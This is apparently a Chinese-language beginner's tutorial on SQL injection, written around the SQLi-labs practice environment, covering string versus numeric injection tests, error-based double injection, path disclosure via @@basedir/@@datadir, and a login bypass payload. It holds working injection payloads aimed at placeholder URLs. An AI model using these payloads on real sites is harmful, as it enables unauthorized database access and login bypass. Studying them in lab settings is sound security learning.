

# SQL注入指北


    ....    ........................         
            ....]]O@@@@@@@@@\]].....         
    .......]@@@@@@@@@@@@@@@@@@@@@@\]....     
    ...,/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@`.     
.....,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@`... 
..../@@@@@@O@@@@@@@@@@@@@@@@@@@@@@OO@@@@@\.. 
...O@@@@@O.....,\@O[[[[[[[[[O@[.   .=@@@@@O..
..O@@@@@@O............ ..........   .@@@@@@O.
.=@@@@@@@@.........,]...,OO\]...    =@@@@@@@^
.@@@@@@@O.... ..\[[[\Oo.,*......    .,@@@@@@@
=@@@@@@@..  ....,[O/`.....,`...     ..=@@@@@@
=@@@@@@O.. . . ......*..........    ...@@@@@@
=@@@@@@O....    ....[\O@@O/.,...    ..=@@@@@@
,@@@@@@@`. .    ..*,`.]OOOO\....    ../@@@@@@
.O@@@@@@@`.........**[[[`.,`... ...../@@@@@@O
.,@@@@@@@@\`........**[OOOO... ....,@@@@@@@@`
..=@@/,[O@@@@O]`....    .......]/@@@@@@@@@@^ 
...,@@@\..\@@@@@@O..    ....=@@@@@@@@@@@@@^. 
    .@@@\...[\O/[...        .=@@@@@@@@@@@... 
    ..,@@@].........        .=@@@@@@@@@`.... 
        ,@@@@@@@@..         .=@@@@@@@`..     
        ...,@@@@@. .        .=@@@@`.....     
         .  ....[...        ....             


## 本文基于SQli-lab 综合编写 --俺是个菜狗

https://blog.csdn.net/u012763794/article/category/6210965

## 常用URL编码
> 常用的写出来吧： `空格是%20，单引号是%27， 井号是%23，双引号是%22`

## 判断到底是什么类型的注入
> 字符型--分析·略·

当输入的参 x 为字符型时，通常 php 中 SQL 语句类型大致如下：

`select * from <表名> where id = 'x'`

这种类型我们同样可以使用 `and '1'='1` 和 `and '1'='2`   来判断：

Url 地址中输入 
```
http://xxx/abc.php?id= x' and '1'='1
```

 页面运行正常，继续进行下一步。
Url 地址中继续输入 
```
http://xxx/abc.php?id= x' and '1'='2 
```

页面运行错误，则说明此 Sql 注入为`字符型注入`。
原因如下：

当输入` and '1'='1`时，后台执行 Sql 语句：
```sql
select * from <表名> where id = 'x' and '1'='1'
```

语法正确，逻辑判断正确，所以返回正确。

当输入 and '1'='2时，后台执行 Sql 语句：
```sql
select * from <表名> where id = 'x' and '1'='2'
```

> 数字型  --分析·略·

当输入 `and 1=1`时，后台执行 Sql 语句：

`select * from <表名> where id = `x` and 1=1`
没有语法错误且逻辑判断为正确，所以返回正常。

当输入 and 1=2时，后台执行 Sql 语句：

`select * from <表名> where id = x and 1=2`
没有语法错误但是`逻辑判断为假`，所以`返回错误`。

我们再使用假设法：如果这是字符型注入的话，我们输入以上语句之后应该出现如下情况：
```sql
select * from <表名> where id = 'x and 1=1' 
select * from <表名> where id = 'x and 1=2'
```


## 基于GET的注入

一般情况下 上去一个`1'`要是报错了 大差不差就是这个了

大致语句如下:
```sql
SELECT * FROM users WHERE id='1''
```

这里多了一个单引号拿去查询必然报错，单引号无法匹配。

> 尝试下

1' order by 3#

看看返回值中

若只是报错没什么异常 再尝试


**GET单引号变形字符型注入**

可以理解为 在搜索的时候额外加入了`括号或双引号`等:
如：
```sql
"select * from xxx where id =('$id')"
```
其中id是在`('$id')`中的值，所以注入的时候要记得加入`)`


在直接输入'的时候没有报错，先不要着急 尝试加入`双引号`,因为`双引号中可以包含单引号`


**GET单引号字符型[双注入](https://www.jianshu.com/p/e097a1c0d9ef)**
暴躁之A君：`在，什么是双注入？编不出来打死你！`

> 原理：当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。

所使用的函数:
```
说明：
rand()是一个生成随机数的函数，他会返回0到1之间到一个值。
floor()是取整函数了，童鞋们应该都很熟悉了。
count()是一个聚合函数，用户返回符合条件的记录数量。
```
>套路(代码)大概：
```sql
select count(*),concat_ws(':',([子查询],floor(rand()*2))) as a form [table_name] group by a;
```

可以理解为因为默写插叙只会返回有和空值，所以要在查询中额外查询所要的函数值。(禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃)

我们把`count函数`也加上，这时候需要注意，要从一张表中查询结果，具体从什么表没关系，但是一定要确保有这个表，所以比较好的选择方案就是`information_schema`中的表，比如:

```sql
select count(*),concat_ws(':',(select database()),floor(rand()*2)) as a from information_schema.tables;
```

`BUT`如果前几次一直无返回值，也不要恐惧，解决恐惧的最好办法就是面对恐惧，坚持，就是胜利！*(奥里给)*
因为这坑爹的返回值是有50%的gay率返回为1 也就是查询有值。所以就写个脚本去试试吧 *(奥里给)*

**导出文件GET字符型注入**

暴躁之A君：不知道那个倒霉孩子取的名字

简单的来说：`导出到文件就是可以将查询结果导出到一个文件中。`
`sqlmap`中也有导出一句话和一个文件上传的语句。
这里的语句为：



当这里要获取到网站的在系统中的具体路径（绝对路径）

> 首先介绍两个可以说是函数，还是变量的东西(a君:淦)
```sql
@@datadir 读取数据库路径
@@basedir MYSQL 获取安装路径
```
```sql
1') union select 1,@@basedir,@@datadir %23
```


文件不能覆盖，输入payload


如果是在c盘等需要管理员权限的，建议梦里做注入。

**[布尔型单引号GET盲注](https://blog.csdn.net/sdb5858874/article/details/80656144)**
A君：布尔型就是T(TRUE)F(false)boys

建议sqlmap跑跑 太费时间了


**对于登录界面的sql注入**


类似于这种登录界面都可以，在登录中输入个单引号康康有没有什么报错啊直接报sql代码的`(ps,反正我是没见过.)`A君：你嗦你🐎呢。

有的时候你就之内跑脚本了，但是有的时候还是可以搏一搏，摩托变骆驼。


```sql
username-a
password-a')or'1'='1#
```
一般这种登录界面的查询语句为：

```sql
select username,password from user Where username=('a') and password = ('a') or '1' ='1#')
```
这时候因为and的运算优先级大于or 所以会先判断 username和passowrd正确和错误，显然这是`false`即为0，1=1为恒真即为1，这时候数据库就会变成，判断
`0 or 1`,等价于：

```sql
SELECT username, password FROM users WHERE 0 or 1;
```

大概的思路就是这样，整合的查询语句请跳转**指北代码篇**。


